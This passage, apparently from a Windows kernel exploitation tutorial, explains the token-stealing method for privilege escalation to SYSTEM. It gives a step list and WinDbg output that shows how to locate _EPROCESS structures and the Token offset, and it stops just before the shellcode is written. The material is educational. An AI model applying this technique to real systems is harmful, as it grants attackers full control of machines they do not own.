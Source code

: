 And tada ...

{%include image.html src="/img/win-kernel-debug/token-bump-via-windbg-2.png" %}

Now we know how to bump any process as `System` using `kd`.


# Shellcoding our way to SYSTEM

So the basic idea now, to reproduce the same steps that we did in the last
part, but from our shellcode. So we need:

 1. A pointer to `System` `nt!_EPROCESS` structure, and save the token
 1. Look for our "new" process (`cmd.exe` is a good target) EPROCESS structure
 1. Overwrite its token with `System`'s
 1. Profit!


## Getting the current process structure address

Pointers to process structures on Windows are stored in a linked list. If we
have the address of one, we can "scroll" back and forward to discover the
others. This is exactly the purpose of the routine `nt!PsGetCurrentProcess`, but
since we can't call it directly (thank you ASLR), we can still check what is it
doing under the hood:

{% highlight text %}
kd> uf nt!PsGetCurrentProcess
nt!PsGetCurrentProcess:
fffff801`feb06e84 65488b042588010000   mov   rax,qword ptr gs:[188h]
fffff801`feb06e8d 488b80b8000000       mov   rax,qword ptr [rax+0B8h]
fffff801`feb06e94 c3                   ret

kd> dps gs:188 l1
002b:00000000`00000188  fffff801`fedbfa00 nt!KiInitialThread
{% endhighlight %}

`mov   rax,qword ptr gs:[188h]` returns to an `_ETHREAD` structure (more
specifically the kernel thread (KTHREAD) `nt!KiInitialThread`). If we check the content of
this structure at the offset 0xb8, we find the structure to the current process:

{% highlight text %}
kd> dt nt!_EPROCESS poi(nt!KiInitialThread+b8)
   +0x000 Pcb              : _KPROCESS
   [...]
   +0x2e0 UniqueProcessId  : 0x00000000`00000004 Void
   +0x2e8 ActiveProcessLinks : _LIST_ENTRY [ 0xffffe000`bbc54be8 - 0xfffff801`fed220a0 ]
   [...]
   +0x348 Token            : _EX_FAST_REF
{% endhighlight %}

So now we know where our current process resides in the kernel (just like `kd`
gave us using `!process 0 0 cmd.exe`), and therefore the beginning of our
shellcode:
